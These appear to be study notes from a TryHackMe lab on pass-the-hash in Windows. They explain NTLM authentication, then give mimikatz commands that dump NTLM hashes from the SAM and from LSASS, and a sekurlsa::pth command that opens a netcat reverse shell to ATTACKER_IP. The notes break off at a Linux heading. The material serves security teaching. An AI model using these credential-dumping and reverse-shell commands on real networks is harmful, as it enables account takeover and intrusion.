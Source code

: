 By alternate authentication material, we refer to any piece of data that can be used to access a Windows account without actually knowing a user's password itself. This is possible because of how some authentication protocols used by Windows networks work. In this task, we will take a look at a couple of alternatives available to log as a user when either of the following authentication protocols is available on the network:
- NTLM authentication
- Kerberos authentication
- 
**Note:** During this task, you are assumed to be familiar with the methods and tools to extract credentials from a host. Mimikatz will be used as the tool of choice for credential extraction throughout the room.

## NTLM Authentication
Before diving into the actual lateral movement techniques, let's take a look at how NTLM authentication works:
![](Pasted%20image%2020241116201524.png)
Steps:
1. The client sends an authentication request to the server they want to access.
2. The server generates a random number and sends it as a challenge to the client.
3. The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
4. The server forwards both the challenge and the response to the Domain Controller for verification.
5. The domain controller uses the challenge to recalculate the response and compares it to the initial response sent by the client. If they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent back to the server.
6. The server forwards the authentication result to the client.

**Note:**
	 The described process applies when using a domain account. If a local account is used, the server can verify the response to the challenge itself without requiring interaction with the domain controller since it has the password hash stored locally on its SAM.


## Pass-the-Hash
As a result of extracting credentials from a host where we have attained administrative privileges (by using mimikatz or similar tools), we might get clear-text passwords or hashes that can be easily cracked. However, if we aren't lucky enough, we will end up with non-cracked NTLM password hashes.

Although it may seem we can't really use those hashes, the NTLM challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can **Pass-the-Hash** (PtH) and authenticate successfully.

To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory.

### Extracting NTLM hashes from local SAM:
This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

THMJMP2: Powershell
```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

### Extracting NTLM hashes from LSASS memory:
This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

THMJMP2: Powershell
```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
```shell-session
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:{bob.jenkins} /domain:{za.tryhackme.com} /ntlm:{6b4a57f67805a663c818106dc0648484} /run:"c:\tools\nc64.exe -e cmd.exe {ATTACKER_IP} {5555}"
```

*Note*:*
	We used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work.

This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our attacking machine:
```shell-session
user@AttackBox$ nc -lvp 5555
```

*Note:*
	If you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.


### Passing the Hash Using Linux: